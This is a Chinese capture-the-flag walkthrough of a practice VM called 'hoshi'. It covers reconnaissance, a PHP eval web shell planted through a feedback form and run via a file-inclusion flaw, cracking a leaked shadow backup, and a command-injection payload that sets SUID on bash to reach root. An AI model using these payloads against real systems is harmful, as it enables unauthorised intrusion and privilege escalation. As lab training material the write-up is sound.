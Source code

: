 # 一、信息收集

## 1. 主机发现

首先，使用 `arp-scan` 在 `192.168.205.0/24` 网段中发现目标主机。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ sudo arp-scan -l
...
192.168.205.142 08:00:27:24:64:43       PCS Systemtechnik GmbH
...
```

确认目标主机IP地址为 `192.168.205.142`。

## 2. 端口扫描

使用 `nmap` 对目标主机进行全端口扫描，识别开放的服务。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ nmap -p- 192.168.205.142
...
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
...
```

扫描结果显示开放了 **22 (SSH)** 和 **80 (HTTP)** 两个端口。我们将Web服务作为主要的攻击入口。

## 3. Web目录与文件发现

访问 `http://192.168.205.142` 是一个“星际商城”的商品反馈页面。使用 `dirsearch` 进行目录爆破，发现多个关键文件。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ dirsearch -u http://192.168.205.142
...
[09:26:07] 200 -    1KB - /admin.php
[09:26:16] 200 -   23KB - /info.php
[09:26:22] 200 -  109B  - /robots.txt
[09:26:25] 301 -  320B  - /uploads  ->  http://192.168.205.142/uploads/
...
```

主要发现：

*   `/admin.php`: 后台登录页面。
*   `/info.php`: 一个 `phpinfo()` 页面，泄露了详细的PHP配置。
*   `/uploads/`: 一个开放目录浏览的上传目录。
*   `/robots.txt`: 存在有趣的信息。

## 4. 信息泄露

查看 `robots.txt` 文件内容，发现一条重要线索。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ curl http://192.168.205.142/robots.txt
本站的 logo 灵感来自 https://maze-sec.com/special/1/，但我们给它添了点特别的‘味道’！
```

该线索暗示网站的logo图片 `QQ.png` 可能被修改过，含有隐藏信息。

# 二、Web渗透与立足点

## 1. 后台登录

访问 `/admin.php` 是一个管理员登录页面，只需要输入密码。根据主页页脚的客服热线 `400-123-4567`，尝试以此作为密码进行登录，成功进入后台。

## 2. 图像隐写 (盲水印)

根据 `robots.txt` 的提示，我们怀疑logo图片存在隐写。

1. 分别下载目标网站的logo和原始logo。

   ```bash
   wget http://192.168.205.142/QQ.png -O target_logo.png
   wget https://maze-sec.com/img/QQ.png -O original_logo.png
   ```

2. 常规的隐写分析工具均未发现异常。考虑到“味道”这种描述，推测可能是盲水印（Blind Watermark）。

3. 使用盲水印工具进行解密，成功提取出隐藏的水印信息。

   ```bash
   # 克隆工具
   git clone https://github.com/chishaxie/BlindWaterMark.git
   cd BlindWaterMark
   
   # 解码
   python bwmforpy3.py decode target_logo.png original_logo.png wm_extracted.png
   ```

4. 查看提取出的水印图片 `wm_extracted.png`，得到隐藏的目录路径：`/hoshi/`。

![提取出的水印](http://7r1UMPHK.github.io/static/image/20250810220719846.webp)

## 3. 文件包含与Getshell

1. 访问新发现的路径 `http://192.168.205.142/hoshi/`，发现一个文件 `gift.php`。直接访问该文件返回错误“非法文件名”，这是典型的**文件包含（LFI）**漏洞特征。

2. 通过Fuzz工具 `ffuf` 爆破参数，确定用于文件包含的参数为 `file`。

3. 在 `admin.php` 页面源码中，发现一行隐藏的注释：`<div style="display:none" id="static-tip">[debug] 静态页面已生成</div>`。

4. **攻击链梳理**：

   *   在主页 `/index.php` 的反馈表单中提交PHP Web Shell。
   *   登录后台 `/admin.php`。这个登录行为会触发服务器将在后台生成一个包含所有反馈内容的静态文件 `admin.html`。（通过目录爆破发现）
   *   利用 `gift.php` 的文件包含漏洞去读取这个新生成的 `admin.html`。由于该文件是被PHP引擎包含的，其中的PHP代码将会被执行。

5. **操作步骤**:

   * **步骤一：注入Payload**。在主页的反馈表单中的"您的昵称"输入栏提交以下内容。

     ```php
     <?php eval($_POST['ant']); ?>
     ```

   * **步骤二：触发生成**。访问 `/admin.php` 并使用密码 `400-123-4567` 登录。此时，包含我们Payload的 `admin.html` 文件已经在Web根目录生成。

   * **步骤三：构造LFI URL**。`http://192.168.205.142/hoshi/gift.php?file=admin.html`

   * **步骤四：连接Shell**。使用蚁剑（AntSword）连接上述URL，密码为 `ant`，成功获得 `www-data` 用户的Web Shell。

# 三、权限提升

## 1. 横向移动 (www-data -> welcome)

1. 在 `www-data` shell中，使用 `linpeas.sh` 等脚本进行信息收集。在 `/var/backups/` 目录下发现一个可读的敏感文件 `shadow~`。

2. 读取该文件，获得 `root` 和 `welcome` 用户的密码哈希。

3. 使用 `John the Ripper` 和 `rockyou.txt` 字典对哈希进行破解，得到 `welcome` 用户的密码为 `loveme2`。

   ```bash
   ┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
   └─$ john --wordlist=rockyou.txt hash.txt
   ...
   loveme2          (welcome)     
   ...
   ```

4. 使用 `su` 命令和破解出的密码成功切换到 `welcome` 用户。

## 2. 提权至root (welcome -> root)

1. 在 `welcome` 用户下，使用 `sudo -l` 检查其sudo权限，发现可以无密码以root权限执行一个Python脚本 `/root/12345.py`。

   ```bash
   welcome@hoshi:/tmp$ sudo -l
   ...
   User welcome may run the following commands on hoshi:
       (ALL) NOPASSWD: /usr/bin/python3 /root/12345.py
   ```

2. 执行该脚本，它会在 `12345` 端口上开启一个自定义的配置shell。

3. 在Kali攻击机上，使用 `ncat` 连接该服务。通过 `help` 命令发现 `exec_cmd` 指令。测试发现 `|;&<>` 等字符被过滤，但 `&&` 可用于命令拼接。

4. 利用命令注入，为 `/bin/bash` 添加SUID权限。

   ```bash
   conf> exec_cmd id'&&chmod +s /bin/bash&&'
   uid=0(root) gid=0(root) groups=0(root)
   ```

5. 回到靶机shell，执行 `bash -p`，成功获得root权限的shell。

   ```bash
   welcome@hoshi:/opt$ bash -p
   bash-5.0# id
   uid=1000(welcome) gid=1000(welcome) euid=0(root) egid=0(root) groups=0(root),1000(welcome)
   ```

# 四、获取Flag

现在拥有了root权限，可以读取所有的Flag。

```bash
bash-5.0# cat /root/root.txt
flag{root-5de923e57adefd6a1fd53a6705ad6486}

bash-5.0# cat /home/welcome/user.txt
flag{user-73b671a5f913d849d405784a428288dd}
```

所有Flag均已找到，渗透测试完成。
